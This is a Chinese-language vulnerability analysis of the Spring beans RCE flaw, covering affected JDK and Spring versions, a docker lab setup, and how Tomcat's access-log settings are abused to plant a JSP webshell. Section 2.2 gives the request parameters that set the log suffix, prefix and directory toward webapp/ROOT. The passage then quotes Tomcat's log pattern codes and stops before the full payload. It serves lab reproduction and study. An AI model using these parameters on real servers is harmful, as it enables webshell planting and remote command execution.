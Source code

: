 
# [](#spring-beans-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)Spring beans RCE 漏洞分析

## [](#1-%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4)1 影响范围

-   JDK 9 及其以上版本
-   Spring 框架以及衍生的框架 `spring-beans-*.jar` 文件或者存在 `CachedIntrospectionResults.class`

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

本文使用的是 [spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29) docker 镜像，启动镜像：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker run --name springRCE -p 8090:8080 -d vulfocus/spring-core-rce-2022-03-29<br>``` |

### [](#22-%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)2.2 漏洞原理

通过直接修改 tomcat 的 log 日志配置，即可以向 `webapp/ROOT` 下写 `jsp` 文件，达到命令执行的目的，与 [s2-020](https://blog.csdn.net/god_7z1/article/details/24416717) 的利用方式相似。

首先向目标发送如下数据包：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br># 设置文件后缀为 .jsp<br>class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp<br><br># 设置文件前缀为 shell<br>class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell<br><br># 设置日志文件的路径为 webapp/path，只有该文件下的 jsp 文件会被解析，本文以 ROOT 为例<br>class.module.classLoader.resources.context.parent.pipeline.first.directory=webapp/ROOT<br>``` |

其次，再设置 log 的 `pattern` 和 `fileDateFormat`，这里的 pattern 是有一定格式限制的，根据 [tomcat 官方](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html)对于 `Access Logging` 的定义，该项值可以为： `common` 与 `combined`，其中 `common` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```fallback<br>%a - Remote IP address. See also %{xxx}a below.<br>%A - Local IP address<br>%b - Bytes sent, excluding HTTP headers, or '-' if zero<br>%B - Bytes sent, excluding HTTP headers<br>%h - Remote host name (or IP address if enableLookups for the connector is false)<br>%H - Request protocol<br>%l - Remote logical username from identd (always returns '-')<br>%m - Request method (GET, POST, etc.)<br>%p - Local port on which this request was received. See also %{xxx}p below.<br>%q - Query string (prepended with a '?' if it exists)<br>%r - First line of the request (method and request URI)<br>%s - HTTP status code of the response<br>%S - User session ID<br>%t - Date and time, in Common Log Format<br>%u - Remote user that was authenticated (if any), else '-' (escaped if required)<br>%U - Requested URL path<br>%v - Local server name<br>%D - Time taken to process the request in millis. Note: In httpd %D is microseconds. Behaviour will be aligned to httpd in Tomcat 10 onwards.<br>%T - Time taken to process the request, in seconds. Note: This value has millisecond resolution whereas in httpd it has second resolution. Behaviour will be align to httpd in Tomcat 10 onwards.<br>%F - Time taken to commit the response, in milliseconds<br>%I - Current request thread name (can compare later with stacktraces)<br>``` |

`combined` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>%{xxx}a write remote address (client) (xxx==remote) or connection peer address (xxx=peer)<br><br>%{xxx}i write value of incoming header with name xxx (escaped if required)<br><br>%{xxx}o write value of outgoing header with name xxx (escaped if required)<br><br>%{xxx}c write value of cookie with name xxx (escaped if required)<br><br>%{xxx}r write value of ServletRequest attribute with name xxx (escaped if required)<br><br>%{xxx}s write value of HttpSession attribute with name xxx (escaped if required)<br><br>%{xxx}p write local (server) port (xxx==local) or remote (client) port (xxx=remote)<br><br>%{xxx}t write timestamp at the end of the request formatted using the enhanced SimpleDateFormat pattern xxx<br>``` |

本文的写 webshell 的方案即是选择 `combined` 相关格式字符。

由于写入一句话 webshell 时，需要一些特殊字符，如：`%`，而 `%` 在日志的配置中又具有特殊含义，直接在 `pattern` 中写入会报错

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302158889.png-water_print](assets/1699408077-cf199eb872ebe18eb260b2f511752eb4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302158889.png-water_print")
